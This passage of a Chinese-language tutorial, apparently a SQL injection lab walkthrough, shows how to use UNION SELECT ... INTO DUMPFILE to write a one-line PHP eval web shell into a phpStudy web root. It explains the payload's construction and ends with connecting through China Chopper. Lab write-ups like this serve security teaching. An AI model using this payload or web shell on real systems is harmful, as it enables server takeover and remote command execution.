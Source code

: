 3、开始写文件

根据上一步，可以看出来这个网站的搭建环境是一个phpstudy的集成环境，那么它的网站根目录是D:\phpStudy\PHPTutorial\WWW\。知道了网站根目录，接下来，利用outfile()写函数，往网站根目录里写入一句话木马文件。

构造语句：?id=-1’)) union select ‘’,’’,’<?php @eval($_REQUEST[666]) ?>’ into dumpfile ‘D:\phpStudy\PHPTutorial\WWW\1.php’ – -

至于语句为什么这么构造，最前面的id=-1是因为union select在into dumpfile()的时候，会把前面的查询结果也一块写入到文件中，像这样：1DumbDumb<?php @eval($_REQUEST[666]) ?>。如果让前面的id=-1，这样前面的select就查询不到结果了，那么写入到文件中的就会如我们所愿了；其次，union select后面还有两个空的单引号，是因为这里查询了三列。union select如果不查询三列的话，就会出错。所以多加了两个空的单引号。

再来到网站目录下，看到我们上传的一句话木马文件已经在了。

![img](assets/1666512362433-56ed2c29-8a20-4bfb-95d8-e9fb8385474c.png)

4、使用菜刀连接

![img](assets/1666512402692-501483a8-3221-42d2-9749-9ea6c94aad33.png)

